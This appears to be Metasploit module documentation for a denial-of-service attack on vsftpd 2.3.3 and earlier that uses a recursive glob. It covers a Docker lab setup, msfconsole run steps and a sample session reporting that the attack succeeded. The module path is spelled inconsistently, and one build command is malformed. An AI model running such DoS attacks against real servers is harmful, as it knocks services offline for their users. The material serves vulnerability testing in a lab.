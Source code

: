 VSFTPD is a popular ftp server written in C. The vulnerability causes a DOS on
the service by leveraging a long recursive glob statement on the server. When
we fill the 4096 character buffer with this recursive glob search, it makes the
current thread spend all of that time unwinding that glob statement which can
use up all the resources on that core. Sending this glob on all threads leave no
availability for anyone else to access the server while taking up all of the CPU
resources of the machine.

## Vulnerable Application

This is an auxiliary for DOSing a VSFTPD server from version 2.3.3 and below.

### Docker install on Arch Linux

A simple container was created to easily test this vulnerability. To easily run a
vulnerable instance of this application, build this image from this Dockerfile.

1. Create a `Dockerfile` and place the content below into it

```dockerfile
FROM archlinux:latest
ARG VERSION=2.3.2
RUN pacman -Sy --noconfirm gcc make libnsl
RUN curl -O https://security.appspot.com/downloads/vsftpd-$VERSION.tar.gz
RUN tar zxf vsftpd-$VERSION.tar.gz
WORKDIR /vsftpd-$VERSION
RUN make
RUN mkdir -p /usr/share/empty/
RUN chmod +x /vsftpd-$VERSION/vsftpd
RUN mv /vsftpd-$VERSION/vsftpd /bin/vsftpd
RUN mv /vsftpd-$VERSION/vsftpd.conf /etc/vsftpd.conf
RUN chown root:root /etc/vsftpd.conf
EXPOSE 21
CMD [ "/bin/vsftpd" ]
```

2. Run `sudo docker build . -t vsftpd:2.3.2 --build-arg=2.3.2`
3. Run `sudo docker run --name vsftpd -p 21:21 vsftpd:2.3.2`

Run the module against this container and the container will either slow down or crash entirely.

## Verification Steps

1. Start `msfconsole`
2. `use auxiliary/dos/ftp/vstfpd_232`
3. `set rhosts`
4. `set ftpuser`
5. `set ftppass`
6. `run`

## Scenarios

### VSFTPD 2.3.2 - Arch linux

```
msf6 > use auxiliary/dos/ftp/vsftpd_232
msf6 auxiliary(dos/ftp/vstfpd_232) > set rhosts 192.168.56.106
rhosts => 192.168.56.106
msf6 auxiliary(dos/ftp/vstfpd_232) > set ftpuser anonymous
ftpuser => anonymous
msf6 auxiliary(dos/ftp/vstfpd_232) > set ftppass ''
ftppass => 
msf6 auxiliary(dos/ftp/vstfpd_232) > run
[*] Running module against 192.168.56.106

[*] 192.168.56.106:21 - sending payload
.............................................................................................
[+] 192.168.56.106:21 - Stream was cut off abruptly. Appears DOS attack succeeded.
[*] Auxiliary module execution completed
```

You can verify that it works by either attempting to ftp into the machine after or checking htop on the machine. If the CPU is at max capacity, that would be due to the DOS.
